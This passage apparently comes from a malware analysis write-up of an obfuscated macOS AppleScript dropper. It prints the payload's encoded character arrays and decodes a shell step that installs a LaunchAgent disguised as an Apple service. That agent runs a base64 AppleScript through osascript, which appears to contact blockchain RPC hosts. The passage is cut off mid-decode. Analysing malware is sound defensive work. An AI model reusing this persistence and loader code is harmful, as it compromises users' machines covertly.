105, 65, 111, 75, 67, 104, 66, 85}))))) & (((((string id {48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103}) & "NDgpICYgKEFTQ0lJIGNoYXJhY3RlciA1MSkpICYgKChBU0NJSSBja") & ((string id {71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 79, 84, 99, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90}) & (string id {67, 65, 49, 77, 67, 107, 112, 75, 83, 107, 103, 74, 105, 65, 111, 75, 67, 74, 109, 78, 67, 73, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86}))) & (((string id {121, 73, 68, 85, 119, 75, 83, 107, 103, 74, 105, 65, 111, 73, 106, 74, 109, 73, 105, 65, 109, 73, 67, 104, 66, 85}) & (string id {48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 78, 84, 89, 112, 75, 83, 107, 112, 75, 81, 111, 75, 99, 109, 86, 119, 90, 87, 70, 48, 73, 72, 100, 112, 100, 71, 103, 103, 88, 48, 108, 97, 86, 48, 86, 121})) & ((string id {97, 49, 85, 103, 97, 87, 52, 103, 88, 49, 57, 109, 97, 122, 78, 69, 86, 72, 78, 72, 90, 103, 111, 74, 100, 72, 74, 53, 67, 103, 107, 74, 99}) & "2V0IF9feUp1WU05M21tIHRvIGRvIHNoZWxsIHNjcmlwdCAoKCgoKCgoQ"))) & ((((string id {86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 78, 67, 107, 103, 74, 105, 65, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 89, 120, 75, 83, 107, 103}) & (string id {74, 105, 65, 111, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 122, 78, 105, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 81, 119, 75, 83, 107, 112})) & ((string id {73, 67, 89, 103, 75, 67, 103, 105, 89, 121, 73, 103, 74, 105, 65, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 69, 120, 78, 121, 107}) & (string id {112, 73, 67, 89, 103, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 69, 48, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70, 121}))) & (("YWN0ZXIgaWQgMTA4KSkpKSAmICgoKChjaGFyYWN0ZXIgaWQgMzIp" & (string id {73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67})) & ("A0NSkpICYgKChBU0N" & (string id {74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 69, 49, 75, 83, 65})))))))) & ((((((((string id {109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90}) & (string id {88, 73, 103, 77, 122, 73, 112, 75, 83, 107, 103, 74, 105, 65, 111, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 78, 68, 85, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112})) & ((string id {90, 67, 65, 48, 78, 83, 107, 112, 73, 67, 89, 103, 75, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90}) & (string id {88, 73, 103, 97, 87, 81, 103, 77, 84, 65, 53, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83}))) & (((string id {66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 79, 84, 99, 112, 75, 83, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 67, 103, 111, 81, 86, 78, 68, 83, 85, 107}) & (string id {103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 121, 77, 67, 107, 103, 74, 105, 65, 111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 81, 49})) & ("KSkgJiAoKEFTQ0lJIGNoYXJhY3RlciAxMTYpICYgKGNoYXJ" & "hY3RlciBpZCAxMDUpKSk"))) & ((((string id {103, 74, 105, 65, 111, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 53, 75, 83, 65, 109, 73, 67, 74, 108}) & (string id {73, 105, 107, 103, 74, 105, 65, 111, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 122, 77, 105, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 81, 53, 75})) & ((string id {83, 107, 112, 75, 83, 65, 109, 73, 67, 103, 111, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83}) & (string id {66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 78, 84, 77, 112, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 122, 77, 105, 107, 112, 73, 67, 89, 103, 75, 67, 104}))) & (((string id {66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 48, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 77, 84}) & (string id {69, 50, 75, 83, 107, 112, 73, 67, 89, 103, 75, 67, 103, 105, 100, 67, 73, 103, 74, 105, 65, 105, 99, 67, 73, 112, 73, 67, 89, 103, 75, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88})) & ((string id {73, 103, 97, 87, 81, 103, 77, 84, 69, 49, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48}) & (string id {78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103}))))) & (((((string id {78, 84, 103, 112, 75, 83, 107, 112, 75, 83, 107, 103, 74, 105, 65, 111, 75, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 48, 78, 121, 107, 103, 74, 105, 65, 105, 76, 121, 73, 112, 75, 83, 65, 109}) & (string id {73, 70, 57, 74, 87, 108, 100, 70, 99, 109, 116, 86, 73, 67, 89, 103, 75, 67, 104, 122, 100, 72, 74, 112, 98, 109, 99, 103, 97, 87, 81, 103, 101, 122, 77, 121, 76, 67, 65, 48, 78, 83, 119, 103, 79, 68, 103, 115, 73, 68, 77, 121, 76, 67, 65, 52, 77, 67})) & ("wgNzksIDgzLCA4NCwgMzIsIDQ1LCA3MiwgMzIsIDM5L" & (string id {67, 65, 50, 78, 121, 119, 103, 77, 84, 69, 120, 76, 67, 65, 120, 77, 84, 65, 115, 73, 68, 69, 120, 78, 105, 119, 103, 77, 84, 65, 120, 76, 67, 65, 120, 77, 84, 65, 115, 73, 68, 69, 120, 78, 110, 48, 112, 73, 67, 89, 103, 73, 105, 49, 85, 101, 88, 66}))) & (((string id {108, 79, 105, 66, 104, 99, 72, 66, 115, 97, 87, 78, 104, 100, 71, 108, 118, 98, 105, 57, 113, 99, 50, 57, 117, 74, 121, 65, 116, 76, 87, 82, 104, 100, 71, 69, 103, 74, 121, 73, 112, 73, 67, 89, 103, 88, 49, 57, 116, 90, 107, 77, 50, 81, 51, 108, 121, 81, 83, 65, 109, 73, 67}) & "goKHN0cmluZyBpZCB7MzksIDQxLCA1OSwgMzIsIDE") & ((string id {119, 78, 67, 119, 103, 78, 106, 69, 115, 73, 68, 77, 50, 76, 67, 65, 48, 77, 67, 119, 103, 77, 84, 65, 120, 76, 67, 65, 53, 79, 83, 119, 103, 77, 84, 65, 48, 76, 67, 65, 120, 77, 84, 69, 115, 73}) & "DMyLCAzNCwgMzYsIDExNCwgMzQsIDMyLCAxMjQsIDMyLCAxMTUsIDEwMSwgMT"))) & ((((string id {65, 119, 76, 67, 65, 122, 77, 105, 119, 103, 78, 68, 85, 115, 73, 68, 69, 120, 77, 67, 119, 103, 77, 122, 73, 115, 73, 68, 77, 53, 76, 67, 65, 120, 77, 84, 85, 115, 73, 68, 81}) & "3LCA0NiwgNDIsIDM0LCAxMTQs") & ((string id {73, 68, 69, 119, 77, 83, 119, 103, 77, 84, 69, 49, 76, 67, 65, 120, 77, 84, 99, 115, 73, 68, 69, 119, 79, 67, 119, 103, 77, 84, 69, 50, 76, 67, 65, 122, 78, 67, 119, 103, 78, 84, 103, 115, 73, 68, 77, 48, 76, 67, 65, 48, 79, 67, 119, 103, 77, 84, 73, 119}) & (string id {76, 67, 65, 53, 77, 105, 119, 103, 78, 68, 65, 115, 73, 68, 107, 120, 76, 67, 65, 53, 78, 72, 48, 112, 73, 67, 89, 103, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90, 67, 66, 55, 77, 122, 81, 115, 73, 68, 107, 122, 76, 67, 65, 48, 77, 105, 119, 103, 79, 84, 73}))) & (("sIDQxLCAzNCwgNDYsIDQyLCA0NywgOTIsID" & (string id {81, 53, 76, 67, 65, 48, 78, 121, 119, 103, 77, 84, 69, 121, 76, 67, 65, 122, 79, 83, 119, 103, 78, 68, 69, 115, 73, 68, 85, 53, 76, 67, 65, 122, 77, 105, 119, 103, 79, 84, 69, 115, 73, 68, 77, 121, 76})) & ((string id {67, 65, 48, 78, 83, 119, 103, 77, 84, 73, 121, 76, 67, 65, 122, 77, 105, 119, 103, 77, 122, 81, 115, 73, 68, 77, 50, 76, 67, 65, 120, 77, 68, 81}) & (string id {115, 73, 68, 77, 48, 76, 67, 65, 122, 77, 105, 119, 103, 79, 84, 77, 115, 73, 68, 77, 52, 76, 67, 65, 122, 79, 67, 119, 103, 77, 84, 65, 120, 76, 67, 65, 120, 77, 106, 65, 115, 73, 68, 69, 119, 78, 83})))))) & ((((("wgMTE2LCAzMiwgNDksIDU5LCA" & (string id {122, 77, 105, 119, 103, 77, 84, 65, 52, 76, 67, 65, 50, 77, 83, 119, 103, 77})) & ((string id {122, 89, 115, 73, 68, 81, 119, 76, 67, 65, 120, 77, 84, 73, 115, 73, 68, 69, 120, 78, 67, 119, 103, 77, 84, 65, 49, 76, 67, 65, 120, 77, 84}) & "AsIDExNn0pKSAmICgoc3RyaW5nIGlkIHsxMDIs")) & (("IDMyLCAzNCwgMzcsIDEwMCwgMzQsIDMyLCA" & (string id {122, 78, 67, 119, 103, 78, 68, 103, 115, 73, 68, 69, 121, 77, 67, 119, 103, 77, 122, 89, 115, 73, 68, 69, 121, 77, 121, 119, 103, 77, 84, 65, 48, 76, 67})) & ((string id {65, 49, 79, 67, 119, 103, 78, 84, 81, 115, 73, 68, 85, 121, 76, 67, 65, 49, 79, 67, 119, 103, 78, 84, 81, 115, 73, 68, 85, 121, 76, 67, 65, 120, 77, 106, 85}) & (string id {115, 73, 68, 77, 48, 76, 67, 65, 48, 77, 83, 119, 103, 78, 84, 107, 115, 73, 68, 77, 121, 76, 67, 65, 120, 77, 68})))) & ((((string id {69, 115, 73, 68, 107, 53, 76, 67, 65, 120, 77, 68, 81, 115, 73, 68, 69, 120, 77, 83, 119, 103, 77, 122, 73, 115, 73, 68, 77, 48, 76, 67, 65, 122, 78, 105, 119, 103, 77, 84, 73, 122, 102, 83, 107, 103}) & (string id {74, 105, 65, 111, 99, 51, 82, 121, 97, 87, 53, 110, 73, 71, 108, 107, 73, 72, 115, 120, 77, 68, 81, 115})) & ((string id {73, 68, 85, 52, 76, 67, 65, 48, 79, 83, 119, 103, 78, 84, 65, 115, 73, 68, 85, 50, 76, 67, 65, 49, 79, 67, 119, 103, 77, 122, 89, 115, 73, 68, 81, 119, 76, 67, 65, 48, 77, 67, 119, 103, 77, 84, 65, 52, 76, 67, 65}) & "0MiwgNTAsIDQxLCA0MSwgMTI1LCAzNCwg")) & (((string id {77, 84, 73, 48, 76, 67, 65, 120, 77, 106, 65, 115, 73, 68, 69, 121, 77, 67, 119, 103, 77, 84, 65, 119, 76, 67, 65, 122, 77, 105, 119, 103, 78, 68, 85, 115, 73, 68, 69, 120, 78, 67, 119, 103, 77, 122, 73, 115, 73, 68, 81}) & "1LCAxMTJ9KSkpCgkJaWYgX195SnVZTTkz") & ("bW0gaXMgbm90IGVxdWFsICIiIHRoZW4gZXhpdCByZXBlYXQKCWVuZCB0cnkKZW" & "5kIHJlcGVhdAoKaWYgX195SnVZTTkzbW0g")))) & (((((string id {97, 88, 77, 103, 98, 109, 57, 48, 73, 71, 86, 120, 100, 87, 70, 115, 73, 67, 73, 105, 73, 72, 82, 111, 90, 87, 52, 75, 67}) & (string id {88, 78, 108, 100, 67, 66, 102, 88, 48, 100, 76, 86, 69, 108, 79, 85, 50, 57, 97, 86, 105, 66, 48, 98, 121, 65, 111, 75, 72, 78, 48, 99, 109, 108, 117, 90, 121, 66, 112, 90, 67, 66, 55})) & ((string id {79, 84, 107, 115, 73, 68, 69, 120, 78, 121, 119, 103, 77, 84, 69, 48, 76, 67, 65, 120, 77, 68, 103, 115, 73, 68, 77, 121, 76, 67, 65, 48, 78, 83, 119, 103, 78, 68, 85, 115, 73, 68, 107, 53, 76, 67, 65, 120, 77, 84, 69, 115, 73}) & "DExMCwgMTEwLCAxMDEsIDk5LC")) & (((string id {65, 120, 77, 84, 89, 115, 73, 68, 81, 49, 76, 67, 65, 120, 77, 84, 89, 115, 73, 68, 69, 119, 78, 83, 119, 103, 77, 84, 65}) & (string id {53, 76, 67, 65, 120, 77, 68, 69, 115, 73, 68, 69, 120, 77, 83, 119, 103, 77, 84, 69, 51, 76, 67, 65, 120, 77, 84, 89, 115, 73, 68, 77, 121})) & ((string id {76, 67, 65, 49, 77, 121, 119, 103, 77, 122, 73, 115, 73, 68, 81, 49, 76, 67, 65, 48, 78, 83, 119, 103, 77, 84, 65, 53, 76, 67, 65, 53, 78, 121, 119, 103, 77, 84, 73, 119, 76, 67, 65, 48, 78, 83, 119, 103, 77, 84}) & (string id {69, 50, 76, 67, 65, 120, 77, 68, 85, 115, 73, 68, 69, 119, 79, 83, 119, 103, 77, 84, 65, 120, 76, 67, 65, 122, 77, 105, 119, 103, 78, 84, 65, 115, 73, 68, 81, 52, 76, 67, 65, 122, 77, 105, 119, 103, 78, 68, 85, 115, 73, 68, 81, 49, 76, 67, 65, 120, 77, 84, 82})))) & ((((string id {57, 75, 83, 65, 109, 73, 67, 104, 122, 100, 72, 74, 112, 98, 109, 99, 103, 97, 87, 81, 103, 101, 122, 69, 119, 77, 83, 119}) & "gMTE2LCAxMTQsIDEyMSwgMzIsI") & ((string id {68, 85, 120, 76, 67, 65, 122, 77, 105, 119, 103, 78, 68, 85, 115, 73, 68, 81, 49, 76, 67, 65}) & (string id {120, 77, 84, 81, 115, 73, 68, 69, 119, 77, 83, 119, 103, 77, 84, 69, 50, 76, 67}))) & (("AxMTQsIDEyMSwgNDUsIDEwMCwgMTAxLCAxMDgsIDk3LCAxMjEsIDMyLCA1M" & (string id {121, 119, 103, 77, 122, 74, 57, 75, 83, 107, 103, 74, 105, 65, 111, 75, 67, 103, 111, 73, 105, 48, 105, 73, 67, 89, 103})) & ((string id {75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 52, 79, 67, 107, 112, 73, 67, 89, 103, 75, 67, 104, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88}) & (string id {73, 103, 97, 87, 81, 103, 77, 122, 73, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74, 104, 89}))))))) & ((((("3RlciBpZCA4MCkpKSAmICgoKEFTQ0lJIGNoYXJhY3" & (string id {82, 108, 99, 105, 65, 51, 79, 83, 107, 103, 74, 105, 65, 111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 103, 122, 75, 83, 107, 103, 74, 105, 65, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74})) & ("hY3RlciA4NCkgJiAoQVNDSUkgY2hhcmFjdGVyIDMyKSkpKSAmICgoKChBU0NJSSB" & (string id {106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 65, 48, 75, 83, 65, 109, 73, 67, 104, 106, 97, 71, 70, 121}))) & (((string id {89, 87, 78, 48, 90, 88, 73, 103, 97, 87, 81, 103, 77, 84, 69, 50, 75, 83, 107, 103, 74, 105, 65, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88}) & (string id {74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 84, 89, 112, 73, 67, 89, 103, 75, 71, 78, 111, 89, 88, 74})) & ((string id {104, 89, 51, 82, 108, 99, 105, 66, 112, 90, 67, 65, 120, 77, 84, 73, 112, 75}) & (string id {83, 107, 103, 74, 105, 65, 111, 75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106})))) & ((("aGFyYWN0ZXIgMTE1KSAmIChBU0NJSSBjaGFyYWN0ZXIgNTgpKSAmICgiLyIgJiA" & (string id {111, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 81, 51, 75, 83, 107, 112, 75, 83, 107, 103, 74, 105, 66, 120, 100, 87, 57, 48, 90, 87, 81, 103, 90, 109, 57})) & ("ybSBvZiBfX3lKdVl" & (string id {78, 79, 84, 78, 116, 98, 83, 65, 109, 73, 67, 73, 103, 73, 105, 65, 109, 73, 67, 73, 116, 90, 67, 65, 105, 73, 67, 89, 103, 99, 88, 86, 118, 100, 71, 86, 107, 73, 71, 90, 118, 99, 109, 48, 103, 98, 50, 89, 103, 75, 67, 103, 111}))) & (((string id {75, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88, 73, 103, 77, 84, 69, 50, 75, 83, 65, 109, 73, 67, 104, 66, 85, 48, 78, 74, 83, 83, 66, 106, 97, 71, 70, 121, 89, 87, 78, 48, 90, 88}) & (string id {73, 103, 77, 84, 73, 119, 75, 83, 107, 103, 74, 105, 65, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 68, 85, 112, 73, 67})) & ("YgKGNoYXJhY3RlciBpZCAxMDApKSkgJiAoQVNDSUk" & (string id {103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 89, 120}))))) & (((((string id {75, 83, 107, 103, 74, 105, 66, 102, 88, 51, 66, 121, 78, 110, 70, 88, 79, 86, 104, 71, 86, 83, 65, 109, 73, 67, 103, 111, 73, 105, 90, 105, 73, 105, 65, 109, 73, 67, 74, 116, 98, 50, 81, 105, 75, 83, 65, 109, 73, 67, 103, 111, 89, 50, 104, 104, 99, 109, 70}) & (string id {106, 100, 71, 86, 121, 73, 71, 108, 107, 73, 68, 69, 120, 78, 121, 107, 103, 74, 105, 65, 105})) & ((string id {98, 71, 85, 105, 75, 83, 107, 112, 73, 67, 89, 103, 75, 67, 103, 111, 73, 105, 66, 56, 73, 67, 73, 103, 74, 105, 65, 105, 98, 51, 78, 104, 73, 105}) & (string id {107, 103, 74, 105, 65, 111, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71}))) & (((string id {78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 120, 77, 84, 85, 112, 73, 67, 89, 103, 75, 69, 70, 84, 81, 48, 108, 74, 73, 71, 78, 111, 89, 88, 74, 104, 89, 51, 82, 108, 99, 105, 65, 53, 79, 83, 107, 112, 75, 83, 65, 109, 73, 67}) & "goInIiICYgKEFTQ0lJIGNoYXJhY3RlciAxMDUpKSA") & ("mICgoY2hhcmFjdGVyIGlkIDExMikgJiA" & (string id {111, 81, 86, 78, 68, 83, 85, 107, 103, 89, 50, 104, 104, 99, 109, 70, 106, 100, 71, 86, 121, 73, 68, 69, 120, 78, 105, 107, 112, 75, 83, 107, 75, 67, 87})))) & (("RvIHNoZWxsIHNjcmlwdCBfX0dLVElOU29aVgplbmQgaWY=' | base64 -d | " & (string id {111, 115, 97, 115, 99, 114, 105, 112, 116, 60, 47, 115, 116, 114, 105, 110, 103, 62, 10, 32, 32, 32, 32})) & (string id {60, 47, 97, 114, 114, 97, 121, 62, 10, 32, 32, 60, 47, 100, 105, 99, 116, 62, 10, 60, 47, 112, 108, 105, 115, 116, 62, 10, 69, 78, 68, 95, 80, 76, 73, 83, 84, 10}))))))
do shell script ((string id {108, 97, 117, 110, 99, 104, 99, 116, 108, 32, 117, 110, 108, 111, 97, 100, 32, 126, 47, 76, 105, 98, 114, 97, 114, 121, 47, 76, 97, 117, 110, 99, 104, 65, 103, 101, 110}) & (string id {116, 115, 47, 99, 111, 109, 46, 65, 112, 112, 108, 101, 46, 100, 100, 106, 110, 109, 117, 121, 109, 111, 100, 122, 106, 107, 121, 111, 118, 46, 112, 108, 105, 115, 116, 32, 50, 62, 47, 100, 101, 118, 47, 110, 117, 108, 108}))
do shell script (((string id {108, 97, 117, 110, 99, 104, 99, 116, 108, 32, 108, 111, 97, 100, 32, 126, 47, 76, 105, 98, 114, 97, 114}) & (string id {121, 47, 76, 97, 117, 110, 99, 104, 65, 103, 101, 110, 116, 115, 47, 99})) & (string id {111, 109, 46, 65, 112, 112, 108, 101, 46, 100, 100, 106, 110, 109, 117, 121, 109, 111, 100, 122, 106, 107, 121, 111, 118, 46, 112, 108, 105, 115, 116}))
```

Obfuscation, again! Since those top 6-7 lines looks like a dead code, we'll directly evaluate `do shell script`. 

Decoding all three `do shell script`, it returned:

* The first one: 
```shell
mkdir -p "$HOME/Library/LaunchAgents";
cat > "$HOME/Library/LaunchAgents/com.Apple.ddjnmuymodzjkyov.plist" <<END_PLIST
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>Label</key>
    <string>com.Apple.ddjnmuymodzjkyov</string>
    <key>KeepAlive</key>
    <true/>
    <key>RunAtLoad</key>
    <true/>
    <key>ProgramArguments</key>
    <array>
        <string>/bin/bash</string>
        <string>-c</string>
        <string>echo 'c2V0IF9fdUxySjFiSjdicm8gdG8gIkp3THlsMGdRUCIKc2V0IF9fSXZFWm9MOSB0byAoODAzICsgMjQyKSAqIDMKcHJvcGVydHkgX19uZkZTVnlOTHUgOiAiaFNycExWRFBFRkg2WU1hajhGTEUiCnNldCBfcjhrZXJVMmogdG8gODc4My42NDE5CnNldCBfX3ozSGtqb0xSbiB0byAiZDk1cWVkNGhZTVEzN3NFUHhKdCIKc2V0IF91eHJEM3FhR1IgdG8gKDQzNCArIDg3KSAqIDMKc2V0IF9yVVBTSWxiRiB0byA0NjYxLjY2MjgKc2V0IF9fZmszRFRzR2YgdG8geygoKCgoQVNDSUkgY2hhcmFjdGVyIDExMikgJiAoQVNDSUkgY2hhcmFjdGVyIDExMSkpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTA4KSAmIChBU0NJSSBjaGFyYWN0ZXIgMTIxKSkpICYgKCgiZyIgJiAoY2hhcmFjdGVyIGlkIDExMSkpICYgKCJuLiIgJiAoQVNDSUkgY2hhcmFjdGVyIDEwMCkpKSkgJiAoKCgoQVNDSUkgY2hhcmFjdGVyIDExNCkgJiAoQVNDSUkgY2hhcmFjdGVyIDExMikpICYgKChjaGFyYWN0ZXIgaWQgOTkpICYgKGNoYXJhY3RlciBpZCA0NikpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciAxMTEpICYgKGNoYXJhY3RlciBpZCAxMTQpKSAmIChBU0NJSSBjaGFyYWN0ZXIgMTAzKSkpKSwgKCgoKCgicG8iICYgKEFTQ0lJIGNoYXJhY3RlciAxMDgpKSAmICgoY2hhcmFjdGVyIGlkIDEyMSkgJiAoQVNDSUkgY2hhcmFjdGVyIDEwMykpKSAmICgoKGNoYXJhY3RlciBpZCAxMTEpICYgKGNoYXJhY3RlciBpZCAxMTApKSAmICgoY2hhcmFjdGVyIGlkIDQ2KSAmIChjaGFyYWN0ZXIgaWQgMTEyKSkpKSAmICgoKChjaGFyYWN0ZXIgaWQgMTE3KSAmIChBU0NJSSBjaGFyYWN0ZXIgOTgpKSAmICgoQVNDSUkgY2hhcmFjdGVyIDEwOCkgJiAoQVNDSUkgY2hhcmFjdGVyIDEwNSkpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciA5OSkgJiAoQVNDSUkgY2hhcmFjdGVyIDExMCkpICYgKChjaGFyYWN0ZXIgaWQgMTExKSAmIChjaGFyYWN0ZXIgaWQgMTAwKSkpKSkgJiAoKChjaGFyYWN0ZXIgaWQgMTAxKSAmICIuYyIpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTExKSAmIChBU0NJSSBjaGFyYWN0ZXIgMTA5KSkpKSwgKCgoKCgicG8iICYgKGNoYXJhY3RlciBpZCAxMDgpKSAmICgoQVNDSUkgY2hhcmFjdGVyIDEyMSkgJiAoQVNDSUkgY2hhcmFjdGVyIDEwMykpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciAxMTEpICYgKEFTQ0lJIGNoYXJhY3RlciAxMTApKSAmICgoQVNDSUkgY2hhcmFjdGVyIDQ1KSAmICJtYSIpKSkgJiAoKCgiaW4iICYgIm4iKSAmICgiZXQiICYgIi4iKSkgJiAoKChBU0NJSSBjaGFyYWN0ZXIgMTAzKSAmIChjaGFyYWN0ZXIgaWQgOTcpKSAmICgoQVNDSUkgY2hhcmFjdGVyIDExNikgJiAoQVNDSUkgY2hhcmFjdGVyIDEwMSkpKSkpICYgKCgoKChBU0NJSSBjaGFyYWN0ZXIgMTE5KSAmICJhIikgJiAoKGNoYXJhY3RlciBpZCAxMjEpICYgKGNoYXJhY3RlciBpZCA0NikpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciAxMTYpICYgKEFTQ0lJIGNoYXJhY3RlciA5NykpICYgKChjaGFyYWN0ZXIgaWQgMTE2KSAmIChBU0NJSSBjaGFyYWN0ZXIgMTE3KSkpKSAmICgoKGNoYXJhY3RlciBpZCAxMDkpICYgKGNoYXJhY3RlciBpZCA0NikpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTA1KSAmIChjaGFyYWN0ZXIgaWQgMTExKSkpKSksIChzdHJpbmcgaWQgezExNiwgMTAxLCAxMTAsIDEwMCwgMTAxLCAxMTQsIDEwOCwgMTIxLCA0NiwgMTE0LCAxMTIsIDk5LCA0NiwgMTEyLCAxMTEsIDEwOCwgMTIxLCAxMDMsIDExMSwgMTEwLCA0NiwgOTksIDExMSwgMTA5LCAxMDksIDExNywgMTEwLCAxMDUsIDExNiwgMTIxfSl9CnNldCBfX21mQzZDeXJBIHRvICgoKHN0cmluZyBpZCB7MTIzLCAzNCwgMTA2LCAxMTUsIDExMSwgMTEwLCAxMTQsIDExMiwgOTksIDM0LCA1OCwgMzQsIDUwLCA0NiwgNDgsIDM0LCA0NCwgMzQsIDEwOSwgMTAxLCAxMTYsIDEwNH0pICYgKHN0cmluZyBpZCB7MTExLCAxMDAsIDM0LCA1OCwgMzQsIDEwMSwgMTE2LCAxMDQsIDk1LCA5OSwgOTcsIDEwOCwgMTA4LCAzNCwgNDQsIDM0LCAxMTIsIDk3LCAxMTQsIDk3LCAxMDksIDExNSwgMzQsIDU4LCA5MSwgMTIzLCAzNCwgMTE2LCAxMTEsIDM0LCA1OCwgMzQsIDQ4LCAxMjAsIDY1LCA1MSwgOTcsIDU0LCA0OCwgNTF9KSkgJiAoKHN0cmluZyBpZCB7NzAsIDU2LCA5NywgNTIsIDUzLCA1MiwgOTcsIDU3LCA5OSwgNTcsIDQ4LCA1MywgOTgsIDUyLCA5OSwgNTMsIDU1LCA1NywgNjYsIDk4LCA1NSwgNTAsIDU0LCA1MCwgNTYsIDcwLCA1NSwgNjcsIDQ5LCA1MywgNjcsIDUwLCA2NX0pICYgKHN0cmluZyBpZCB7NDgsIDM0LCA0NCwgMzQsIDEwMCwgOTcsIDExNiwgOTcsIDM0LCA1OCwgMzQsIDQ4LCAxMjAsIDUwLCA1NCwgNTYsIDU0LCAxMDEsIDk5LCAxMDEsIDk3LCAzNCwgMTI1LCA0NCwgMzQsIDEwOCwgOTcsIDExNiwgMTAxLCAxMTUsIDExNiwgMzQsIDkzLCA0NCwgMzQsIDEwNSwgMTAwLCAzNCwgNTgsIDQ5LCAxMjV9KSkpCgpzZXQgX19wcjZxVzlYRlUgdG8gKCgoKCgoQVNDSUkgY2hhcmFjdGVyIDEwMSkgJiAoQVNDSUkgY2hhcmFjdGVyIDU3KSkgJiAoIjEiICYgKEFTQ0lJIGNoYXJhY